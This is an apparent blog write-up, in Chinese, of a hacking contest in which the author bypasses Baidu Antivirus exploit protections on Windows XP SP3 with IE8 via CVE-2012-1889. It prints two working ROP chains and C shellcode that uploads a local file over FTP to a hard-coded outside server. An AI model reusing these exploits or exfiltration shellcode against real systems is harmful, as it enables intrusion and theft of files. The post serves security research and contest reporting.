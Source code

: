 ```yaml
---
layout:     post
title:      绕过百度杀毒溢出保护的一些方法
category: blog
description: 参加XP挑战赛时写的老文章
---
```


## 背景 ##
&emsp;&emsp;前段时间参加了http://xp.erangelab.com/举办的XP挑战赛，把绕过一些安全防护软件的过程和大家分享一下。其中百度杀毒的测试版本为1.8.14.1

## 使用的IE漏洞 ##

&emsp;&emsp;由于比赛系统为XP SP3 +IE8未打任何其他补丁，所以从IE漏洞选取了CVE 2012-1889、CVE 2012-4969、CVE 2013-1347，原因就是这三个能在网上找到现成的exp，后来证明多找几个漏洞还是很必要的，因为适应各种突发变化。

## 百度防护手段 ##

- 防堆喷射

&emsp;&emsp;这几个漏洞本身没什么可说的，拿到1889就开始在百度卫士上开测，直接IE加载exp，没有成功IE崩溃，这是必然的嘛，要不然还叫什么保护。因为yuange、tk等高人说的DVE技术我还没有学会，所以还是用被大牛们淘汰的堆喷射，用vmmap打开IE进程，发现堆喷的地址都被占位了：
![spary1](../images/baiduav/spray1-300x66.png)

&emsp;&emsp;这就是传说中的占坑，0C0C0C0C这种地址都被占了，这样我们堆喷的时候当然就占不到这个位置了。但是，事实证明这种方法对于防护堆喷射一点作用都没有，我不知道做这个功能的人自己试验了没有，在提前占坑的进程中堆喷射，喷射完成后内存布局是这样的：
![spray2](../images/baiduav/spray2.png)

&emsp;&emsp;可以看到除了开始的4K以外，后面该喷射占用的内存还是一样占用了，0C0D0000里面照样是我们的的shellcode，我们利用的时候直接用0C0E0C0C这个地址就好了，保证是成功喷射的，所以占坑这招只要改个地址就可以破解了。百度和金山都用了这种占坑的方法，而事实证明这种做法根本没有任何意义，而金山的实现更差，用explib直接喷射仍然占了0C0C0C0C。现在精确堆喷射的技术已经很成熟了，这方面不再多做介绍。

- 防ROP

&emsp;&emsp;因为XP SP3上是没有ASLR的，因此我们只要ROP绕过DEP就可以了，喷射成功之后，就成功来到了shellcode中，但还是被百度报了ROP攻击，当然大牛们可以用DVE技术，但是咱还没学会不是，还是老老实实看看ROP怎么绕过保护。网上找的原始exp里的ROP是用VirtualProtect，跟踪发现调用这个API的时候被百度拦截了，于是要找其他的ROP，打开immunity debugger，用mona插件（[https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/ "mona")）找了几种不同的ROP，经过修改调试之后，在百度环境下测试发现VirtualAlloc没有被百度拦截，终于成功进入了真正的shellcode，不过最后一天百度升级补了此方法，最后没有用这种方法，后面绕过的方法随后再介绍。下面是VirtualAlloc的ROP：

    var rop_chain = unescape(  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4B‰u77BE" + // 0x77BEBE4B # pop ebp # retn [msvcrt.dll]  
    "‰u5ED5‰u77BE" + // 0x77BE5ED5 # xchg eax, esp # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰u89dd‰u77bf" + // 0x77bf89dd : ,# POP EBP # RETN [msvcrt.dll]  
    "‰u89dd‰u77bf" + // 0x77bf89dd : ,# skip 4 bytes [msvcrt.dll]  
    "‰u6e91‰u77c1" + // 0x77c16e91 : ,# POP EBX # RETN [msvcrt.dll]  
    "‰u0001‰u0000" + // 0x00000001 : ,# 0x00000001−> ebx  
    "‰ue185‰u77c1" + // 0x77c1e185 : ,# POP EDX # RETN [msvcrt.dll]  
    "‰u1000‰u0000" + // 0x00001000 : ,# 0x00001000−> edx  
    "‰u0f48‰u77c1" + // 0x77c10f48 : ,# POP ECX # RETN [msvcrt.dll]  
    "‰u0040‰u0000" + // 0x00000040 : ,# 0x00000040−> ecx  
    "‰u79d8‰u77c1" + // 0x77c179d8 : ,# POP EDI # RETN [msvcrt.dll]  
    "‰u6101‰u77c1" + // 0x77c16101 : ,# RETN (ROP NOP) [msvcrt.dll]  
    "‰u2666‰u77bf" + // 0x77bf2666 : ,# POP ESI # RETN [msvcrt.dll]  
    "‰uaacc‰u77bf" + // 0x77bfaacc : ,# JMP [EAX] [msvcrt.dll]  
    "‰u2217‰u77c2" + // 0x77c22217 : ,# POP EAX # RETN [msvcrt.dll]  
    "‰u111d‰u77be" + // 0x77be110c+11 77BE111d : ,# ptr to &VirtualAlloc()  
    "‰u67f0‰u77c2" + // 0x77c267f0 : ,# PUSHAD # ADD AL,0EF # RETN [msvcrt.dll]  
    "‰u1025‰u77c2" // 0x77c21025 : ,# ptr to 'push esp # ret ' [msvcrt.dll]  
    );  

- 绕过沙盒

&emsp;&emsp;因为比赛的规则是需要在本地读取一个文件，然后通过FTP上传到指定服务器。但我测试发现即使成功执行了shellcode，仍然无法运行外部程序上传文件。在调用很多系统API的时候会被百度报，包括使用socket连接外部IP都不行，想执行系统的ftp.exe就更不可能了，这样就陷入无法上传文件的窘境。

&emsp;&emsp;后来想到WinInet是提供FTP功能的，试验一下果然可以，百度和金山都没有对WinInet API进行拦截，因此成功上传了文件。下面是Shellcode源码，用的是tk大神的C编写shellcode模板（[https://github.com/tombkeeper/Shellcode_Template_in_C](https://github.com/tombkeeper/Shellcode_Template_in_C "c shellcode")）：

    void ShellCode(void)  
    {  
    struct  KERNEL32Kernel32;  
    struct  WININET WinInet;  
      
    HMODULE hWinInet;  
    HINTERNET hInternet;  
    HINTERNET hConnect;  
      
    DWORD   sz_Wininet[] = { 0x696e6977, 0x2e74656e, 0x006c6c64, 0x00000000 };  
    DWORD   sz_InternetOpenA[] = { 0x65746e49, 0x74656e72, 0x6e65704f, 0x00000041 };  
    DWORD   sz_InternetConnectA[] = { 0x65746e49, 0x74656e72, 0x6e6e6f43, 0x41746365, 0x00000000 };  
    DWORD   sz_FtpPutFileA[] = { 0x50707446, 0x69467475, 0x0041656c, 0x00000000 };  
    DWORD   sz_InternetCloseHandle[] = { 0x65746e49, 0x74656e72, 0x736f6c43, 0x6e614865, 0x00656c64 };  
    DWORD   sz_Server[] = { 0x2e323931, 0x2e383631, 0x2e393531, 0x00000036 };  
    DWORD   sz_User[] = { 0x00707466 };  
    DWORD   sz_Pass[] = { 0x00707466 };  
    DWORD   sz_LocalFile[] = { 0x745c3a63, 0x5c747365, 0x72636573, 0x742e7465, 0x00007478 };  //c:\test\secret.txt  
    DWORD   sz_RemoteFile[] = { 0x78742e61, 0x00000074 };  
      
    Kernel32.BaseAddr = GetKernel32Base();  
    //Kernel32.LoadLibraryA = GetProcAddrByHash(Kernel32.BaseAddr, HASH_LoadLibraryA);  
    Kernel32.GetModuleHandleA = GetProcAddrByHash(Kernel32.BaseAddr, HASH_GetModuleHandleA);  
    Kernel32.GetProcAddress = GetProcAddrByHash(Kernel32.BaseAddr, HASH_GetProcAddress);  
    Kernel32.Sleep = GetProcAddrByHash(Kernel32.BaseAddr, HASH_Sleep);  
      
    hWinInet = Kernel32.GetModuleHandleA(sz_Wininet);  
    WinInet.InternetOpenA = Kernel32.GetProcAddress(hWinInet, sz_InternetOpenA);  
    WinInet.InternetConnectA = Kernel32.GetProcAddress(hWinInet, sz_InternetConnectA);  
    WinInet.FtpPutFileA = Kernel32.GetProcAddress(hWinInet, sz_FtpPutFileA);  
    WinInet.InternetCloseHandle = Kernel32.GetProcAddress(hWinInet, sz_InternetCloseHandle);  
      
    hInternet = WinInet.InternetOpen(sz_User, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, INTERNET_FLAG_NO_CACHE_WRITE);  
    Kernel32.Sleep(1000);  
    hConnect  = WinInet.InternetConnect(hInternet, sz_Server, INTERNET_DEFAULT_FTP_PORT, sz_User, sz_Pass, INTERNET_SERVICE_FTP, INTERNET_FLAG_EXISTING_CONNECT || INTERNET_FLAG_PASSIVE,0);  
    Kernel32.Sleep(1000);  
      
    WinInet.FtpPutFile(hConnect,sz_LocalFile,sz_RemoteFile,FTP_TRANSFER_TYPE_ASCII,0);  
    Kernel32.Sleep(1000);  
    WinInet.InternetCloseHandle(hConnect);  
    WinInet.InternetCloseHandle(hInternet);  
    Kernel32.Sleep(0x7fffffff);  
    }  

- 再次绕过ROP防护

&emsp;&emsp;因为比赛规则是使用开赛厂商前一天中午12点的官网发布的版本，所以即使提前过了这些杀毒软件也没什么好高兴的，果不其然，开赛前一天所有杀毒软件都推出了更新版本，测试后好似被泼了一头冷水，原来的绕过方法又被拦截了。

&emsp;&emsp;最主要的问题在于ROP，百度在最后更新版本里加入了对VirtualAlloc的拦截，前面那个ROP显然是白弄了。测试发现更新后对HeapCreate也拦截了，而在IE里面SetProcessDEPPolicy和NtSetInformationProcess因为被调用过都不能用了，所以常见的ROP手段都被防住了。

&emsp;&emsp;正当我准备放弃ROP另觅出路的时候看了一眼内存，惊奇的发现了
![memory](../images/baiduav/mem.jpg)

&emsp;&emsp;140000这块内存是读写执行属性的，大小0x1000放shellcode绰绰有余，而且重启之后地址不变！这是什么节奏？百度给留的后门啊。

&emsp;&emsp;现在只需要写一个memcpy的ROP，把shellcode拷贝到140000，然后跳过去执行就OK了。长话短说，写这个ROP也费老劲了，因为以前都是依赖mona，从来没有字节动手写过ROP，开始写才发现忒累，构造一堆寄存器要保证PUSHAD之后恰好是memcpy的参数，还要保证恰好返回到1400XX，花了足有两个小时才调通。下面是修改后的新ROP链：

    var rop_chain = unescape(  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4B‰u77BE" + // 0x77BEBE4B # pop ebp # retn [msvcrt.dll]  
    "‰u5ED5‰u77BE" + // 0x77BE5ED5 # xchg eax, esp # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰uBE4C‰u77BE" + // 0x77BEBE4C # retn [msvcrt.dll]  
    "‰u89dd‰u77bf" + // 0x77bf89dd : ,# POP EBP # RETN [msvcrt.dll]  
    "‰u0000‰u0014" + // MEMMOVE DEST  
    "‰u6e91‰u77c1" + // 0x77c16e91 : ,# POP EBX # RETN [msvcrt.dll]  
    "‰u1000‰u0000" + // 0x00000001 : ,# 0x00000001−> ebx  
    "‰ue185‰u77c1" + // 0x77c1e185 : ,# POP EDX # RETN [msvcrt.dll]  
    "‰u89dd‰u77bf" + // 0x77bf89dd : ,# POP EBP # RETN [msvcrt.dll]  
    "‰u0f48‰u77c1" + // 0x77c10f48 : ,# POP ECX # RETN [msvcrt.dll]  
    "‰u1000‰u0000" + // 0x00001000 : ,# 0x00001000−> ecx  
    "‰u79d8‰u77c1" + // 0x77c179d8 : ,# POP EDI # RETN [msvcrt.dll]  
    "‰u2787‰u77bf" + // JMP EAX  
    "‰u2666‰u77bf" + // 0x77bf2666 : ,# POP ESI # RETN [msvcrt.dll]  
    "‰u0006‰u0014" + // RETURN TO 140006 REAL SHELLCODE  
    "‰u2217‰u77c2" + // # POP EAX # RETN [msvcrt.dll]  
    "‰u72c1‰u77c1" + // # ptr to memmove() [IAT msvcrt.dll]  
    "‰u67f0‰u77c2" + // 0# PUSHAD # ADD AL,0EF # RETN [msvcrt.dll]  
    "‰u0006‰u0014" //NO USE  
    );  
&emsp;&emsp;在百度更新后测试可以绕过保护。

&emsp;&emsp;另外提一下百度非常不厚道的一点，这次比赛的目的就是测试在系统存在漏洞的情况下，杀毒软件是否能保护系统不受攻击，所以除了SP3之外没有打任何额外的补丁。但是百度在比赛前一天的更新却自动给系统打了补丁，把mshtml.dll替换成了新版本。本来测试的三个漏洞里CVE 2013-1347是最好用的，因为不需要堆喷射，速度嗖嗖的快，本来我也是要以这个为主力的，没想到百度最后一刻补了mshtml，导致这个漏洞没法利用了，所以最后只好用2012-1889来攻击了，因为2012-1889是msxml里的漏洞，百度忘了补这个：）